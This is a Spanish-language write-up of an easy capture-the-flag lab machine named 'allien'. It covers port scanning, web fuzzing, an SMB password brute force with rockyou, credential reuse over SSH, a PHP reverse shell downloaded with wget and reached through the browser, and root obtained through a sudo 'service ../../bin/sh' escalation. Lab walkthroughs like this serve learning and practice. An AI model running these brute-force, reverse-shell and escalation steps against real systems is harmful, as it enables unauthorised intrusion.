# Máquina allien

---

Dificultad -> Fácil

---

Primero hacemos un nmap

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:a1:09:2d:be:05:58:1b:01:20:d7:d0:d8:0d:7b:a6 (ECDSA)
|_  256 cd:98:0b:8a:0b:f9:f5:43:e4:44:5d:33:2f:08:2e:ce (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: SAMBASERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-11-25T08:09:23
|_  start_date: N/A
```

Primero entro desde la web, a ver que encuentro:



Veo una página de inicio de sesión por correo, antes de nada hago fuzzing con gobuster para buscar directorios y archivos en la web:

```shell
gobuster dir --url "172.17.0.2" --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

```shell
/index.php            (Status: 200) [Size: 3543]
/info.php             (Status: 200) [Size: 72709]
/productos.php        (Status: 200) [Size: 5229]
/server-status        (Status: 403) [Size: 275]
```

A parte del index, encuentro 2 php, info y productos

En info, encuentro información sobre la version del php:



Y en productos.php encuentro una especie de tienda:



Antes de tocar nada aquí voy a mirar el SMB:

Con `enum4linux 172.17.0.2` pruebo a enumarar usuarios de windows:



Con los usuarios, me creo un archivo `users.txt` y con `netexec` hago un bruteforce al SMB:

```shell
netexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```


Encuentro las credenciales `satriani7:50cent`

Con smbmap miro que permisos tengo con ese usuario:

```shell
smbmap -H 172.17.0.2 -u satriani7 -p 50cent
```



Veo que puedo leer los archivos de `/backup24` 

Con smbclient me conecto a `backup24` con el usuario `satriani7` y contraseña `50cent`:

```shell
smbclient //172.17.0.2/backup24 -U satriani7
```

Entre todo lo que hay, principalmente veo 2 archivos de texto en `\Documents\Personal\` que descargo con `get` y veo en mi máquina



En la nota solo encuentro una pregunta, "tu como pitas?", interesante



En credentials.txt encuentro lo siguiente:



Con las credenciales `administrador:Adm1nP4ss2024` consigo conectarme por ssh

Con `sudo -l` y buscando binarios con permiso SUID no consigo nada interesante

Despues de un rato buscando, solo se me ocurre convertirme en el usuario `www-data` para eso, me voy a `/var/www/html/`, desde mi máquina, donde tengo una revshell en php de [revshells.com](https://www.revshells.com/), hago un servidor en python con `python -m http.server 80`

Ahora desde el servidor, con un wget descargo la revshell:



Ahora me meto en el navegador a http://172.17.0.2/revshell.php mientras que escucho desde mi máquina con netcat y estamos dentro como `www-data` 



Antes de nada, hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) y seguidamente un `sudo -l`



Veo que puedo ejecutar el binario service como root sin necesidad de contraseña, asi que busco en [GTFOBins](https://gtfobins.github.io/gtfobins/service/#sudo) y veo que simplemente con el siguiente comando consigo root:

```shell
sudo service ../../bin/sh
```


